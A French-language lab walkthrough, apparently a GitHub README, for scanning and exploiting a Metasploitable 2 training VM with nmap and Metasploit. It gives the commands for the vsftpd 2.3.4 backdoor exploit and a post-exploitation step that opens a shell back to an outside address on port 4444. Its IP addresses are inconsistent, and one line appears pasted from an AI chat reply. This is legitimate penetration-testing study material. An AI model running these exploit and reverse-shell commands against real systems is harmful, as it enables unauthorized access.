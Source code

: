 ## installation
![alt text](image-1.png)

![alt text](image-2.png)
2. setup network one metasploitable : 
```bash
auto eth0
iface eth0 inet static
    address 192.168.1.100
    netmask 255.255.255.0
    gateway 192.168.1.1
```

3. nmap result : 
```bash
nmap -sV -p- 192.168.10.5
```

a. Result:
![alt text](image-3.png)
b. interpretation :
D'après le scan Nmap, voici les services vulnérables les plus intéressants sur Metasploitable 2 :

🔴 Services FTP Vulnérables :
- vsftpd 2.3.4 (port 21)
- ProFTPD 1.3.1 (port 2121)

🔓 Services SSH/Telnet :
- OpenSSH 4.7p1
- Telnet (port 23)

🌐 Services Web :
- Apache 2.2.8 
- Apache Tomcat (port 8180)

🔐 Bases de données :
- MySQL 5.0.51a
- PostgreSQL 8.3.0 - 8.3.7

🔌 Autres services intéressants :
- Samba (ports 139/445)
- UnrealIRCd (ports 6667/6697)
- RMI Java 
- VNC (port 5900)

Voulez-vous que je vous guide pour exploiter l'un de ces services en particulier ?
4. scan avec Metasploit
```bash
msfconsole
msf> use auxiliary/scanner/portscan/tcp
msf> set RHOSTS 192.168.10.5
msf> run
```

5. Exploitation VSFTPd
```bash
msfconsole
msf> search vsftpd
msf> use exploit/unix/ftp/vsftpd_234_backdoor
msf> set RHOSTS 192.168.10.5
msf> exploit
```

🔒 Commandes Post-Exploitation
```bash
msfconsole
msf> use post/multi/manage/shell_to_tcp
msf> set RHOSTS 192.168.10.5
msf> set LHOST 237.84.2.178
msf> set LPORT 4444
msf> exploit
```

### Risques VSFTPd :

* Accès non autorisé
* Exécution de commandes distantes
* Potentielle élévation de privilèges

6. Test et exploitation pas à pas
```bash
# Test initial avec nmap
nmap -sS @cible

# Ouverture de Metasploit
msfconsole

# Scan avec Metasploit
msf> use auxiliary/scanner/portscan/tcp
msf> show info
msf> set RHOSTS @cible
msf> run

# Recherche de vulnérabilités VSFTPd
msf> search vsftpd

# Exploitation de la vulnérabilité
msf> use exploit/unix/ftp/vsftpd_234_backdoor
msf> exploit
